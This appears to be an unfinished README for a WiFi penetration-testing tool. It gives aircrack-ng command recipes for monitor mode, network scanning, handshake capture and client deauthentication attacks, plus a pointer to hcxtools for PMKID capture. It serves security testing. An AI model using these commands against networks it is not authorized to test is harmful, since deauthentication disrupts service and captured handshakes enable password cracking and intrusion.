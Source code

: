 # WiFighter
Easy-to-use WiFI pen-testing tool for Debian build on aircrack-ng written in python and bash

## Dependecies

```c
apt install -y aircrack-ng hcxdumptool hcxpcapngtool hashcat
```



## WiFi Scan & Select
```python
  import pywifi, scapy
```



## Threat Hunt
```python
  import pywifi, scapy
```



## Attack mode

## 1. Aircrack guide

- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

### Monitor mode

Set interface to monitor
```c
airmon-ng start <INTERFACE>
```

Set interface to managed
```c
airmon-ng stop <INTERFACE>mon
```

### Scan nearby WiFi's

Scan all
```c
airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
airodump-ng --band a <ESSID> <INTERFACE>mon
```

Listen for handshake of specified AP
```c
airodump-ng -c <CHANNEL> -b <BSSID> -w OUTPUT_PATH <INTERFACE>mon
```

### Deauth clients (force handshake)

Deauth all (broadcast)
```c
aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```



## 2. Hcxtools guide - TESTOVAT U TATY, TP-Link OneMesh feature

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

### Installation

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```



## 3. Reaver or Bully ??

- Cracking WPS




